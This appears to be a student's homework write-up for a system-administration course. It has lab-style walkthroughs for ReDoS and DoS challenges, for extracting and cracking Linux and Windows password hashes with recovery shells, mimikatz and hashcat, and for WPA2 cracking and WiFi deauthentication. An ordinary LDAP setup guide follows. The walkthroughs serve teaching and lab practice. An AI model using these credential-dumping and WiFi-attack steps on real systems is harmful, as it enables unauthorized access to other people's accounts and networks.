




# NASA HW5

b09902004 郭懷元

# Security

## 1. Threat Modeling

> Refs:
> 
> None

### 1

**Assumption**

- The ship works as supposed.
- Any lost of cargo isn't acceptable.
- Not considering natural disasters such as typhoons and tsunami.

| Threat Model                    | Countermeasure                                  |
| ------------------------------- | ----------------------------------------------- |
| Pirates attack the ship         | Ask for navy's protection                       |
| Auto-pilot system gets attacked | Always keep the pilot aware of the ship's state |

### 2

**Assumption**

- No violence is involved.

| Threat Model                                   | Countermeasure                                                                                      |
| ---------------------------------------------- | --------------------------------------------------------------------------------------------------- |
| Customer sneaks out the restaurant             | Ask customers to pay first                                                                          |
| Customer tries bring people in that didn't pay | Give customer who have paid a wrist band for identification. Only people with it can get tableware. |

### 3

**Assumption**

- A team competition.
- Discussion between different teams and using internet resources are illegal.
- PCs in R204 work normally.

| Threat Model                                             | Countermeasure                                     |
| -------------------------------------------------------- | -------------------------------------------------- |
| Participants bring cellphones and laptops to communicate | Ban use of electronic devices other than R204's PC |
| Participants discuss when going to restroom              | Allow only one team to leave R204 at a time.       |

### 4

**Assumption**

- Power system is normal.

| Threat Model                                  | Countermeasure                                            |
| --------------------------------------------- | --------------------------------------------------------- |
| Intruders break doors to get in               | Set alarms to go off when destruction is detected         |
| Intruders go in with people with access cards | Have security guards to make sure people going one by one |

### 5

**Assumption**

- No physical violence.

| Threat Model                                                            | Countermeasure                                   |
| ----------------------------------------------------------------------- | ------------------------------------------------ |
| Malicious people try to dump out password hash and crack it             | Use a second factor hardware key to authenticate |
| Malicious people use hardware key and password given to allowed people. | Use biometrics authentication                    |

## 2. Proof of Work & DoS

### 1.

> Refs:
> 
> https://en.wikipedia.org/wiki/Denial-of-service_attack

A DoS attack aims to keep other users from using the victim's service by exhausting the victim server's computation resources or bandwidth.

A DDoS attack is a type of DoS attack. The attacker uses multiple IPs and machines to attack the victim's servers.

DDoS attack is a subset of DoS attack.

---

### 2.

> Refs:
> 
> https://en.wikipedia.org/wiki/Proof_of_work
> https://en.wikipedia.org/wiki/Proof_of_space

A PoW challenge requires the user to spend a considerable amount of computation resources to prove that they really  want to use the service. The challenge is usually hard to solve but easy to verify, therefore hash functions are commonly used in PoW.

Proof of space is similar to proof of work, but a user need to have storage space instead of computation resources. Some new cryptocurrencies uses proof of space instead of proof of work.

---

### 3.

> Refs:
> 
> b09902011 陳可邦

Flag: `HW5{c4ts_ar3_a_1ot_cut3r_th4n_柴魚}`

Be reading `server.py`, we know that the flag will be shown if `qsort()` runs slow enough, and the implementation chooses pivot from the middle of the array. Therefore we can construct an input  that forces `qsort()` run in quadratic time. The "evil" input looks something like this: `... 7 5 3 1 2 4 6 ...`.

Code based on `example.py` to obtain the flag is in `p2-3.py`.


---

### 4.

> Refs:
> 
> b09902011 陳可邦
> https://medium.com/swlh/exploiting-redos-d610e8ba531
> https://owasp.org/www-community/attacks/Regular_expression_Denial_of_Service_-_ReDoS

Flag: `HW5{柴魚柴油乾柴烈火火柴砍柴柴米油鹽醬醋茶留得青山在不怕沒柴燒}`

Mail content: `Dear Sophia, 柴魚柴魚柴魚柴魚柴魚柴魚柴魚柴魚柴魚柴魚. Best wishes, 123456789012345678901234567890@.`

In `server.py`, we can find this regex expression. The exploitable part is `([a-zA-Z0-9]+ ?)+\.$`, because a `+` is inside another `+`'s target pattern.

When the regex engine first tries to match that pattern, `+` will try to match as many characters as possible.

```
(123456789012345678901234567890)@.
```

And mathcing will fail because of the `@`. Then the `+` inside will backtrack.

```
(12345678901234567890123456789)(0)@.
(1234567890123456789012345678)(90)@.
(1234567890123456789012345678)(9)(0)@.
So on and so on...
```

Time complexity becomes exponential and DoS attacks become possible.


---

### 5.

> Refs:
> 
> b09902011 陳可邦

Flag: `HW5{y0u_shou1d_w0rk_unt1l_4.am_wi7h_m3_ev3ry_d4y!}`

Certificate: `2757602341||220.82929244357436||c504c8bf51ee18d7c1e8f7bf80afa7f5f2814843290bcf749e8fc8e9f75cfe36`

Because `proof_of_work()` the random number fed to hash only ranges from `0` to `2^24-1`, we can generate a table to use hashed values to lookup prehashed values.

Code to generate lookup table is in `gen_rainbow.py`. Code based on `example.py` to obtain the flag is in `p2-5.py`. Run `python gen_rainbow.py` first to generate the data needed.



---

## 3. SA 知識問答

### 1.

> Refs:
> 
> https://ithelp.ithome.com.tw/articles/10248302
> https://www.kshuang.xyz/doku.php/operating_system:nix_suid_sgid_in_unix

If `SUID` is set on a binary file, when a user executes the file, that user will have the same permission as the binary's owner during the process. `SGID` is like the "group" version of `SUID`, giving user the group of the binary when executing. `SGID` can also be set on a directory. In that case, a user would have the same group as the directory when he's in that directory.

These two file permissions might accidently give normal users root permission to do anything. If the binary isn't well-coded, it could allow malicious users inject arbitrary code and execute them as root user.

---

### 2.

> Refs:
> 
> https://unix.stackexchange.com/questions/127432/logging-ssh-access-attempts
> https://www.eurovps.com/blog/important-linux-log-files-you-must-be-monitoring/
> http://linux.vbird.org/linux_basic/0570syslog/0570syslog.php

For Ubuntu/Debian based distro, it's in `/var/log/auth.log`.

For RHEL/Cent OS, it's in `/var/log/secure`.

`/var/log/auth.log` logs information related to authentication, such as telnet, ftp, ssh, pop3, sudo.

`/var/log/secure` logs similar information to `/var/log/auth.log`.

A more inter-distro solution is to use `journalctl` to view the log.

---

### 3.

> Refs:
> 
> https://unix.stackexchange.com/questions/70684/where-are-sudo-incidents-logged
> https://askubuntu.com/questions/641049/who-are-incidents-really-reported-to-and-how-can-a-sudo-user-access-the-reports
> https://stackoverflow.com/questions/13546933/where-are-sudo-incidents-reported

~~Santa Claus~~

In most distros, if root user's mail is configured, an email to be sent to notify. The incident would also be logged in a log file.

For Ubuntu/Debian based distro, it's in `/var/log/auth.log`.

For RHEL/Cent OS, it's in `/var/log/secure`.

Same as last problem, `journalctl` is a more general solution.

---

### 4.

> Refs:
> 
> https://unix.stackexchange.com/questions/314725/what-is-the-difference-between-user-and-service-account
> https://unix.stackexchange.com/questions/115177/how-come-each-program-or-service-has-an-account-of-its-own-in-etc-passwd/115184
> https://unix.stackexchange.com/questions/197124/why-are-there-many-accounts-im-the-only-user/197155

Creating accounts for services allows better isolation of resources between different services, and also prevents giving unnecessary permissions.

When all services run under `root`, if one of the services has some severe security bug, attackers might be able to exploit that and start a full system attack.

---

### 5.

> Refs:
> 
> https://medium.com/@vicxu/%E6%B7%BA%E8%AB%87-authentication-%E4%B8%AD%E9%9B%86-token-based-authentication-90139fbcb897

**Token-based**

| Pros                                        | Cons                                                           |
| ------------------------------------------- | -------------------------------------------------------------- |
| Difficult to brute-force                    | Adding new devices isn't trivial if using all token-based auth |
| No worrying about things like smudge attack | Token leak is much more severe than password hash leak         |

**Password**

| Pros                       | Cons                                                     |
| -------------------------- | -------------------------------------------------------- |
| Easy to use across devices | Brute-force or dictionary attack could happen            |
| Low effort to deploy       | Actual security might be reduced due to human's laziness |

---

## 4. 弱密碼

### 1.

> Refs:
> 
> b09902011 陳可邦
> https://cccharles.pixnet.net/blog/post/326116524
> https://samsclass.info/123/proj10/p12-hashcat.htm

Flag: `HW5{R3al1y_Da_Y1_:P}`

**Getting the hash**

1. Plug in the flash drive and connect it to the VM.
2. Select `Advanced Options` and `Ubuntu, with <kernel info> (recovery)`.
3. In recovery menu, choose `root` to drop to shell.
4. `lsblk` to find flash drive's device name, `mount /dev/<device name> /mnt`.
5. `cp /etc/shadow /mnt`, turn off vm.
6. Remove every line except the line with hank, and keep only the hash. Save it as `ubuntu-hash`.

**Cracking the password**

```shell
wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/xato-net-10-million-passwords-1000000.txt
./hashcat-6.1.0/hashcat.bin -m 1800 -a 0 ubuntu-hash xato-net-10-million-passwords-1000000.txt
```

- `-m 1800`: Cracking linux's hash for passwords.
- `-a 0`: Dictionary mode.
- `ubuntu-hash`: File containing hash.
- `xato-net-10-million-passwords-1000000.txt`: Dictionary file.

The password is `1qaz2wsx3edc4rfv`. The flag in the desktop image of the vm.


---

### 2.

> Refs:
> 
> b09902011 陳可邦
> https://security.stackexchange.com/questions/157922/how-are-windows-10-hashes-stored-if-the-account-is-setup-using-a-microsoft-accou
> https://miloserdov.org/?p=4129
> https://hashcat.net/wiki/doku.php?id=hashcat
> https://windowsreport.com/how-to-enter-recovery-mode-in-windows-10/

Flag: `HW5{Micro$0ft也大意啦}`

**Getting dump file**

1. Plug in a flash drive with windows installation tools. Plug in another for copying files out.
2. Boot with the windows flash drive, enter recovery mode and open command line.
3. `XCOPY /E /I /D /C C:\Windows\System32\config\SAM E:`, `XCOPY /E /I /D /C C:\Windows\System32\config\SYSTEM E:`, turn off VM.

**Getting hash from dump file**

1. Download `mimikatz` from the github repo.
2. In powershell, run `mimikatz.exe`
3. `lsadump::sam /system:<system file copied from vm> /sam:<sam file copied from vm>`
4. In the output text, the hash looks like this:

```
RID  : 000003e8 (1000)
User : howhow
  Hash NTLM: 674ba145222376d43d4f0a9e3f6f315f
```

**Cracking the hash**

Since we are brute forcing, GPU would help a lot. I start with 8-character passwords then increase the length.

```shell
./hashcat-6.1.0/hashcat.bin -I # check available devices
./hashcat-6.1.0/hashcat.bin -m 1000 -a 3 -d 3 windows-hash -1 ?l?d a?1?1?1?1?1?1?1
./hashcat-6.1.0/hashcat.bin -m 1000 -a 3 -d 3 windows-hash -1 ?l?d a?1?1?1?1?1?1?1?1
```

- `-m 1000`: Cracking NTLM hash.
- `-a 3`: Brute force mode.
- `-d 3`: Specifying GPU to use.
- `windows-hash`: File containing hash.
- `-1 ?l?d`: A customize character set that includes lowercase letters and digits.
- `a?1?1?1?1?1?1?1?1`: A mask for brute forcing. An `a` followed by 8 characters from set `1`.

The password is `apple8787`. The flag is the filenames of files on desktop.


---

### 3.

> Refs:
> 
> None

1. Use hardware key authentication. For example, the "Security Key" option in Windows 10 login option.
2. Use multi-factor authentication.

---

## 5. WiFi Hacking

> Refs:
> 
> b09902011 陳可邦
> b09902100 林弘毅
> https://null-byte.wonderhowto.com/how-to/hack-wi-fi-cracking-wpa2-psk-passwords-using-aircrack-ng-0148366/
> https://hashcat.net/wiki/doku.php?id=cracking_wpawpa2
> https://wiki.wireshark.org/HowToDecrypt802.11
> https://hackernoon.com/forcing-a-device-to-disconnect-from-wifi-using-a-deauthentication-attack-f664b9940142

### 1.

WiFi password: `0918273645`

```shell
ifconfig # Find wifi interface, mine is wlo1
sudo airmon-ng start wlo1
ifconfig # wlo1 will be replaced with a new interface, mine is wlo1mon
sudo airodump-ng
```



An entry with ESSID `Palace of Joe Tsai` is the AP. It has MAC address `94:BF:C4:32:CC:88` on channel `4`.

```shell
sudo airodump-ng wlo1mon --bssid 94:BF:C4:32:CC:88 -c 4 --write hack_wifi
```

This will capture traffics associated with `Palace of Joe Tsai` and dump them to some files named `hack_wifi`.

Generated files are:

```
hack_wifi.cap
hack_wifi.csv
hack_wifi.kismet.csv
hack_wifi.kismet.netxml
hack_wifi.log.csv
```

Upload the `.cap` file to https://hashcat.net/cap2hccapx/ or download the execuable to convert it to `.hccapx` for hashcat. Mine has filename `hash_wifi.hccapx`.

```shell
./hashcat-6.1.0/hashcat.bin -m 2500 -a 3 hash_wifi.hccapx 09?d?d?d?d?d?d?d?d
```


---

### 2.

Flag: `HW5{Jo3_Tsa1-7he_M4st3r_0F_Tra1niNg}`

Open `hack_wifi.cap` with WireShark. Go to `Edit` -> `Preferences` -> `Protocols` -> `IEEE 802.11`.

Add a decryption key like this:


Go to `Statistics` -> `Conversations` -> `TCP`. Select arbitary entry and `follow stream` because they all have the same two hosts.




---

### 3.

Flag: `HW5{j0e_ts4I_1s_d0ub1e_gun_k4i's_b3st_fr13nD}`

To obtain victim's MAC address, run:

```shell
sudo airodump-ng wlo1mon --bssid 94:BF:C4:32:CC:88 -c 4 # the same command from p5-1
```


The victim's MAC address is shown in `STATION`, which is `8C:88:2B:00:73:6E`. To send attack, run:

```shell
sudo aireplay-ng --deauth 0 -c 8C:88:2B:00:73:6E -a 94:BF:C4:32:CC:88 wlo1mon
```

- `--deauth 0`: Keep sending deauthentication signal until we stop.
- `-c`: Victim's MAC address
- `-a`: WiFi AP's MAC address
- `wlo1mon`: WiFi interface on my laptop

Then check the web page with another device.


---

# LDAP

> Note:
> 
> `.ldif` and `.schema` files are in `ldif/`. `.py` files are in `ldap-script/`.

## 1. Basic Setup

> Refs:
> 
> Lab slides

Create `suffix.ldif`, `root.ldif`, `base.ldif`.

Then run these commands:

```shell
ldapmodify -Y EXTERNAL -H ldapi:/// -f suffix.ldif
slappasswd
ldapmodify -Y EXTERNAL -H ldapi:/// -f root.ldif
ldapadd -Y EXTERNAL -H ldapi:/// -f /etc/openldap/schema/cosine.ldif
ldapadd -Y EXTERNAL -H ldapi:/// -f /etc/openldap/schema/nis.ldif
ldapadd -Y EXTERNAL -H ldapi:/// -f /etc/openldap/schema/inetorgperson.ldif
ldapadd -x -W -D "cn=giver,dc=giver,dc=csie,dc=ntu" -H ldapi:/// -f base.ldif
```


---

## 2. Client

> Refs:
> 
> https://pastleo.me/post/20200719-archlinux-installation
> https://coodie-h.blogspot.com/2017/09/centos-7openldap.html
> http://dic.vbird.tw/linux_server/unit07.php
> https://wiki.archlinux.org/title/LDAP_authentication#Online_and_Offline_Authentication_with_SSSD
> https://wiki.archlinux.org/title/Sudo#Using_visudo
> https://bbs.archlinux.org/viewtopic.php?id=245004
> https://unix.stackexchange.com/questions/196829/read-files-directly-vs-getent

### Setup LDAP client

On both machines, add this line to `/etc/hosts`

```
192.168.50.99  centos-server
```

On CentOS server:

Add ldap to allowed services in firewall setting.

```shell
firewall-cmd --permanent --add-service=ldap
firewall-cmd --reload
```

Add these lines in `/etc/openldap/ldap.conf`:

```
BASE        dc=giver,dc=csie,dc=ntu
URI            ldap:///
```

On Arch client:

```shell
pacman -S openldap
systemctl start slapd
systemctl enable slapd
vim /etc/openldap/ldap.conf
```

Add these lines in `/etc/openldap/ldap.conf`:

```
BASE        dc=giver,dc=csie,dc=ntu
URI            ldap://centos-server
```

---

### Enable SSSD with LDAP

For most of the part, simply follow [this guide on arch linux wiki](https://wiki.archlinux.org/title/LDAP_authentication#Online_and_Offline_Authentication_with_SSSD). Don't edit `/etc/pam.d/sudo`, just leave it by default.

`/etc/sssd/sssd.conf` should looks like this:

```
[sssd]
config_file_version = 2
services = nss, pam, sudo
domains = LDAP

[domain/LDAP]
cache_credentials = true
enumerate = true

id_provider = ldap
auth_provider = ldap

ldap_uri = ldap://centos-server
ldap_search_base = dc=giver,dc=csie,dc=ntu
chpass_provider = ldap
ldap_chpass_uri = ldap://centos-server
entry_cache_timeout = 600
ldap_network_timeout = 2

ldap_tls_reqcert = never
```

(I didn't use certification for tls because ~~I couldn't fix the issue~~ it's just a test environment

---

### Create users, groups

Create `stu-group.ldif`, `ta-group.ldif`

```
dn: cn=student,ou=group,dc=giver,dc=csie,dc=ntu
objectClass: posixGroup
objectClass: top
gidNumber: 200
```

```
dn: cn=ta,ou=group,dc=giver,dc=csie,dc=ntu
objectClass: posixGroup
objectClass: top
gidNumber: 201
```

Create `stu00.ldif`, `ta00.ldif`

On server:

```shell
ldapadd -x -W -D "cn=giver,dc=giver,dc=csie,dc=ntu" -H ldapi:/// -f stu-group.ldif
ldapadd -x -W -D "cn=giver,dc=giver,dc=csie,dc=ntu" -H ldapi:/// -f ta-group.ldif
ldapadd -x -W -D "cn=giver,dc=giver,dc=csie,dc=ntu" -H ldapi:/// -f stu00.ldif
ldapadd -x -W -D "cn=giver,dc=giver,dc=csie,dc=ntu" -H ldapi:/// -f ta00.ldif
```


---

### Setup sudo permission

On client:

```shell
EDITOR=vim visudo
```

Add this line:

```
%ta ALL=(ALL) NOPASSWD: ALL
```


---

### `passwd` difference

`getent passwd` will look up both local users and external users (e.g. LDAP).

`/etc/passwd` only stores local users, therefore users created with LDAP won't be found.

---

## 3. Schema

> Refs:
> 
> https://guillaumemaka.com/2013/07/17/openldap-create-a-custom-ldap-schema/
> https://www.openldap.org/doc/admin22/schema.html

### Add custom attributes and schemas

On server, create `giver-problem.schema`

Then create `test.conf`

```
include /etc/openldap/schema/core.schema
include /etc/openldap/schema/cosine.schema
include /etc/openldap/schema/nis.schema
include /etc/openldap/schema/inetorgperson.schema
include /root/giver-problem.schema
```

Then run these commands

```shell
slaptest -f ~/test.conf -F /tmp/ldap_config
cp \
/tmp/ldap_config/cn\=config/cn\=schema/cn={4}giver-problem.ldif \
/etc/openldap/slapd.d/cn\=config/cn\=schema/
chown \
ldap:ldap \
/etc/openldap/slapd.d/cn\=config/cn\=schema/cn={4}giver-problem.ldif
systemctl restart slapd
```

---

### Create problem group and objects

Create `gen-problem.ldif`

```
dn: ou=problem,dc=giver,dc=csie,dc=ntu
objectClass: organizationalUnit
ou: problem
```

Create `p00.ldif`, `p01.ldif`

Then run these commands:

```shell
ldapadd -x -W -D "cn=giver,dc=giver,dc=csie,dc=ntu" -H ldapi:/// -f gen-problem.ldif
ldapadd -x -W -D "cn=giver,dc=giver,dc=csie,dc=ntu" -H ldapi:/// -f p00.ldif
ldapadd -x -W -D "cn=giver,dc=giver,dc=csie,dc=ntu" -H ldapi:/// -f p01.ldif
```


---

## 4. Access Control

> Refs:
> 
> https://www.openldap.org/doc/admin24/access-control.html
> https://unix.stackexchange.com/questions/444332/how-to-restrict-user-based-on-ip-address-in-openldap

Create `manage-access.ldif`

`ipv6` entries are added because when I found that the server machine is using ipv6 to send queries.

Then run these command

```shell
ldapmodify -Y EXTERNAL -H ldapi:/// -f manage-access.ldif
```

---

## 5. Multiple LDAP Servers

> Refs:
> 
> https://serverfault.com/questions/730088/how-to-migrate-ldap-database-schema-configuration-to-other-machine
> https://www.jianshu.com/p/34dc6412de30
> https://www.openldap.org/doc/admin24/replication.html#MirrorMode

### Clone server settings

On all three machines, add this line to `/etc/hosts`

```
192.168.50.106 centos-server-2
```

On the original server:

```shell
systemctl stop slapd
slapcat -n 0 -l clone-config.backup
slapcat -n 2 -l clone-data.backup # -n is 2 because that's how we set it in suffix.ldif
sftp root@centos-server-2
sftp> put clone-config.backup
sftp> put clone-data.backup
stfp> exit
systemctl start slapd
```

On new server:

```shell
systemctl stop slapd
rm -rf /etc/openldap/slapd.d
mkdir /etc/openldap/slapd.d
slapadd -n 0 -F /etc/openldap/slapd.d -l clone-config.backup
slapadd -n 2 -F /etc/openldap/slapd.d -l clone-data.backup
chown -R ldap:ldap /etc/openldap/slapd.d
chmod 755 /etc/openldap/slapd.d
chown ldap:ldap /var/lib/ldap/*
systemctl start slapd
```

---

### Enable mirror mode

Create `mod_syncprov.ldif`

```
dn: cn=module,cn=config
objectClass: olcModuleList
cn: module
olcModulePath: /usr/lib64/openldap
olcModuleLoad: syncprov.la
```

Create `syncprov.ldif`

```
dn: olcOverlay=syncprov,olcDatabase={2}hdb,cn=config
objectClass: olcOverlayConfig
objectClass: olcSyncProvConfig
olcOverlay: syncprov
olvSpCheckpoint: 100 10
olcSpSessionLog: 100
```

On both servers, run these commands

```shell
ldapadd -Y EXTERNAL -H ldapi:/// -f mod_syncprov.ldif
ldapadd -Y EXTERNAL -H ldapi:/// -f syncprov.ldif
```

Create `node01.ldif` on old server

Create `node02.ldif` on new server

```
# every line is the same as node01.ldif except these two
...
olcServerID: 2
...
    provider=ldap://centos-server
...
```

On old server:

```shell
ldapadd -Y EXTERNAL -H ldapi:/// -f node01.ldif
```

On new server:

```shell
ldapadd -Y EXTERNAL -H ldapi:/// -f node02.ldif
```

---

## 6. Scripting

> Refs:
> 
> https://www.python-ldap.org/en/python-ldap-3.3.0/reference/ldap.html
> https://iter01.com/363962.html
> https://stackoverflow.com/questions/29586435/openldap-how-to-disable-enable-remove-user-account

### Requirements

`python 2.7` with module `python-ldap` installed

### Add new users

#### File

`new-user.py`

#### Usage

```shell
python new-user.py
```

The program will ask you to enter the username and if the user is TA. The password of new user is the same as their username.

In the script you will find this area:

```python
server_ip = "localhost"
stu_gid = "200"
ta_gid = "201"
```

Change these values if needed.

#### Demo


---

### Lock / unlock user

#### File

`lock-user.py`

#### Usage

```shell
python lock-user.py
```

The program will ask you if you are locking or unlocking a user. Enter `y` if locking, `n` if unlocking. Then enter the username you are managing.

In the script you will find this area

```python
server_ip = "localhost"
```

Change the value if needed.

#### Some details

The program lock the user by adding `LOCKED`  in front of the `userPassword`. That is, changing it from `{SSHA}<hash value>` to `LOCKED{SSHA}<hash value>`. Unlocking is by removing the `LOCKED` at head.

Doing multiple locks will add more `LOCKED`, but unlocking an account will delete all `LOCKED` at once.

This method is a bit dirty and doesn't prevent user from using ssh-key, but can be done without changing the LDAP server infrastructure. Using [password-policy overlay](http://www.openldap.org/software/man.cgi?query=slapo-ppolicy&sektion=5&apropos=0&manpath=OpenLDAP+2.3-Release) could be a nicer solution, but requires some work on configuring the server.

#### Demo


---

### Change name

#### File

`change-name.py`

#### Usage

```shell
python change-name.py
```

The program will ask you to enter your username, password, and the new `givenName`.

In the script you will find this area

```python
server_ip = "localhost"
```

Change this if needed.